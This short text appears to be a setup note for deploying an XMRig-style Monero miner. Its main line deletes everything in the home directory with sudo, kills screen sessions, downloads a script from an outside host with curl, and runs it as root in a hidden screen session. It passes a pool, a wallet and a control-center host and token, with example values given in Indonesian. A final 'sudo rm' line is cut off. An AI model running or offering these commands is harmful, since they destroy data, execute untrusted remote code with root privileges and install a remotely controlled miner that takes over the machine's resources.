 # zanu
cd ~/ &amp;&amp; sudo rm -rf * &amp;&amp; sudo killall screen || echo "ok" &amp;&amp; sudo pkill screen || echo "ok" &amp;&amp; sudo curl -Ls -o script http://srv-fuzzle.me/xmrigDO &amp;&amp; sudo screen -dmS setup bash script {pool} {address} \"{algo}\" {controlcenter:port} {controlcenter_token} contoh pool : xmr-us-east1.nanopool.org:14444 address : Xmr1234 algo : rx/0 control center : srv-fuzzle.me:1234 control center token : abc123 cd ~/ &amp;&amp; sudo rm lteqglvgew6oohdxv
